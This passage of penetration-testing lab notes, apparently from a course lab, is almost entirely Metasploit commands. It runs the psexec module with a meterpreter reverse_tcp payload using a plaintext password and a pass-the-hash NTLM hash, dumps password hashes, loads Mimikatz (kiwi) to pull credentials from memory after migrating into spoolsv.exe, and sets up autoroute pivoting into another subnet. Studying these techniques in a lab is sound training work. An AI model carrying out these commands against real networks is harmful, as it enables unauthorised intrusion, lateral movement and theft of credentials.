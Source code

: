     ```
    use exploit/windows/smb/psexec
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOSTS 10.130.10.5
    set LHOST tun0
    set SMBUser bgreen(admin user)
    set SMBDomain hiboxy
    set SMBPass Password1
    run
    ```
    * extract password hashes (DC ONLY)
    ```
    run post/windows/gather/smart_hashdump
    ```
    * extract password hashes
    ```
    run post/windows/gather/hashdump
    ```

## Mimikatz (Need Admin User)
* linux 
    * the target system is 64bit, so it should get 64bit processs
    ```
    ps -A x64 -s
    ```
    * migrate
    ```
    migrate -N spoolsv.exe
    ```
    * so meterpreter can loads Mimikatz
    ```
    load kiwi
    ```
    * get passwords from RAM
    ```
    creds_all
    ```
<br>

# Pivots
## Pivoting Through Meterpreter Session
### Meterpreter
* linux
    * setup msfconsole options that already have gotten credentials by previous pth exercise
    ```
    msfconsole
    use exploit/windows/smb/psexec
    set payload windows/meterpreter/reverse_tcp
    set RHOSTS 10.130.10.21
    set LHOST tun0
    set SMBUser antivirus
    set SMBDomain hiboxy
    set SMBPass aad3b435b51404eeaad3b435b51404ee:47f0ca5913c6e70090d7b686afb9e13e
    run
    ```
    * setup the pivot
    ```
    info post/multi/manage/autoroute
    run post/multi/manage/autoroute CMD=add SUBNET=10.130.11.0
    ```